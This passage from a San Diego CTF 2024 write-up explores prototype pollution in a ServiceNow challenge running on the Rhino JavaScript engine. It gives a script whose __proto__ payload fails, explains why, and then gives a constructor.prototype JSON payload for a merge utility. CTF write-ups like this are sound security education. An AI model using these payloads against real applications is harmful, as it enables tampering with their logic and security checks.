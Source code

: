 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/San-Diego-CTF-2024/images/Pasted%20image%2020240513212009.png)

**Result:**
```
*** Script: [*] Payload JSON object: {"foo":"bar", "__proto__":{"polluteTarget":"polluted"}}  
*** Script: [*] Before polluted: undefined  
*** Script: [*] Before merged form_data: {}  
*** Script: [*] After polluted: undefined  
*** Script: [*] After merged form_data: {"foo":"bar","__proto__":{"polluteTarget":"polluted"}}
```

Umm... Wait... It should be polluted, right?? Why attribute `polluteTarget` is still `undefined`, and the merged `form_data` object has `"__proto__":{"polluteTarget":"polluted"}`??

After the CTF has ended, the author of this challenge says this:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/San-Diego-CTF-2024/images/Pasted%20image%2020240513212237.png)

> Rhino is a JavaScript engine written fully in Java and managed by the Mozilla Foundation as open source software. It is separate from the SpiderMonkey engine, which is also developed by Mozilla, but written in C++ and used in Mozilla Firefox - [https://en.wikipedia.org/wiki/Rhino_(JavaScript_engine)](https://en.wikipedia.org/wiki/Rhino_(JavaScript_engine))

TLDR: Rhino is another JavaScript engine and [ServiceNow is using it in the server-side](https://www.servicenow.com/community/developer-articles/discover-the-benefits-of-ecmascript-how-es12-can-enhance/ta-p/2419996).

According to [Rhino documentation archive](https://www-archive.mozilla.org/rhino/overview), **`__proto__` is deprecated** long time ago:

> [...]The deprecated features are the `__proto__` and `__parent__` properties, and the constructors `With`, `Closure`, and `Call`. Attempts to invoke these constructors with the language version 1.4 will result in an error.[...]

Hmm... I guess maybe that's why `__proto__` didn't polluted attribute `polluteTarget`.

Luckily, there's an alternative: **`constructor.prototype`**. It's basically same as `__proto__` but in a different name.

**Let's try to use `constructor.prototype`!**
```javascript
var now = new global.ServiceNowObjectUtils();
var form_data = {}

// {
//     "foo": "bar",
//     "constructor":
//     {
//         "prototype":
//         {
//             "polluteTarget": "polluted"
//         }
//     }
// }
meta = '{"foo":"bar", "constructor":{"prototype":{"polluteTarget":"polluted"}}}';
gs.log("[*] Payload JSON object: " + meta);

gs.log("[*] Before polluted: " + JSON.stringify(Object.prototype.polluteTarget));
gs.log("[*] Before merged form_data: " + JSON.stringify(form_data));

now.merge(form_data, JSON.parse(meta));

gs.log("[*] After polluted: " + JSON.stringify(Object.prototype.polluteTarget));
gs.log("[*] After merged form_data: " + JSON.stringify(form_data));
```
